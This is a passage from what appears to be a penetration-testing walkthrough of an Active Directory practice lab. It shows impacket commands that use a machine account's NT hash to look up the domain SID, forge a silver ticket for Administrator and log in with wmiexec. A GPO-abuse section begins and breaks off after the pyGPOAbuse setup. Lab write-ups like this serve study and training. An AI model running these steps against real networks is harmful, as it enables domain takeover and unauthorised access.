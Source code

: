 ```
impacket-lookupsid -hashes ':33a43e326dad53a516dc06393281d2cc' 'sevenkingdoms.local'/'kingslanding$'@kingslanding.sevenkingdoms.local 0
```
![screenshot](pics/sidlookup.png)


- Create the silver ticket:
```
impacket-ticketer -nthash '33a43e326dad53a516dc06393281d2cc' -domain-sid 'S-1-5-21-1409754491-4246775990-3914137275' -domain sevenkingdoms.local -spn cifs/kingslanding.sevenkingdoms.local Administrator
```


- And use it :
```
export KRB5CCNAME=/workspace/acl/Administrator.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```
![screenshot](pics/silver_ticket_login.png)


Ok the fun with sevenkingdoms.local domain is over, now let’s try some acl in the other domains.

## GPO abuse

>[!NOTE]
>I have to check out this part

- There is a GPO abuse on the north domain

- To abuse GPO we will use the project created by Hackndo : [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
- The github readme file say : _“It will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO.”_
```
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m virtualenv .venv<br>source .venv/bin/activate<br>python3 -m pip install -r requirements.txt
```

- We get the id from bloodhound and launch the exploit with :
